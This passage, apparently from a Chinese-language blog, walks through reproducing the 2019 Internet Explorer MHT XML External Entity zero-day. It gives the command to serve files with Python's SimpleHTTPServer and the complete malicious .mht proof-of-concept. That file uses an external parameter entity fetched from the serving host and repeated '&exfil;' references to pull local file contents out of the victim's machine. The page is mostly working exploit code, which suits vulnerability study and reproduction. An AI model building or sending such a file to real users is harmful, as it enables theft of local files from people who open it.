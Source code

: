 2.开启服务端，在当前目录下。
python -m SimpleHTTPServer

![20190418180818.jpg](https://github.com/zhongshendoushuizhao/zhongshendoushuizhao.github.io/blob/master/img/20190418180818.jpg?raw=true)

Serving HTTP on 0.0.0.0 port 8000 ...
127.0.0.1 - - [18/Apr/2019 17:33:34] "GET /msie-xxe-0day.mht HTTP/1.1" 200 -

通过http服务，下载
msie-xxe-0day.mht 文件

msie-xxe-0day.mht内容如下：

```mht
From:
Subject:
Date:
MIME-Version: 1.0
Content-Type: multipart/related; type="text/html";
	boundary="=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001"
This is a multi-part message in MIME format.


--=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001
Content-Type: text/html; charset="UTF-8"
Content-Location: main.htm

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/transitional.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>MSIE XXE 0day</title>
</head>
<body>
<xml>
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://localhost:8000/datatears.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
<r>&exfil;</r>
<r>&exfil;</r>
<r>&exfil;</r>
</xml>
<script>window.print();</script>
<table cellpadding="0" cellspacing="0" border="0">
<tr>
<td class="contentcell-width">
<h1>MSIE XML External Entity 0day PoC.</h1>
<h3>Discovery: hyp3rlinx</h3>
<h3>ApparitionSec</h3>
</td>
</tr>
</table>
</body>
</html>

```